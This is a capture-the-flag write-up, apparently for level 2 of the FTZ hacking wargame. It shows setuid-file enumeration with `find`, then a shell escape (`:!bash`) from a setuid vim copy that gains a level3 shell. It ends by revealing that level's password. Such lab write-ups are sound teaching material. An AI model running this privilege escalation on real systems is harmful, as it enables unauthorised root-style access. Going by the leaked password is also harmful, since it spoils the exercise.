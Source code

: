 # Level2

## This level's goal

- Run the command in vi/vim editor

***

`[level2@ftz level2]$ cat hint`

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...

`[level2@ftz level2]$ find / -user level3 -perm -4000 2>/dev/null`

/usr/bin/editor

`[level2@ftz level2]$ ls -l /usr/bin/editor`

-rwsr-x---    1 level3   level2      11651 Aug 19  2014 /usr/bin/editor



`[level2@ftz level2]$ which vi`

alias vi='vim'
        
/usr/bin/vim

`[level2@ftz level2]$ ls -l /bin/vi`

-rwxr-xr-x    1 root     root       456108 Feb 12  2003 /bin/vi

`[level2@ftz level2]$ ls -l /usr/bin/vim`

-rwxr-xr-x    1 root     root      1893740 Feb 12  2003 /usr/bin/vim



`[level2@ftz level2]$ /usr/bin/editor`

`:!id`

uid=3003(level3) gid=3002(level2) groups=3002(level2)

Hit ENTER or type command to continue

`:!bash`



`[level3@ftz level2]$ my-pass`

Level3 Password is "can you fly?".
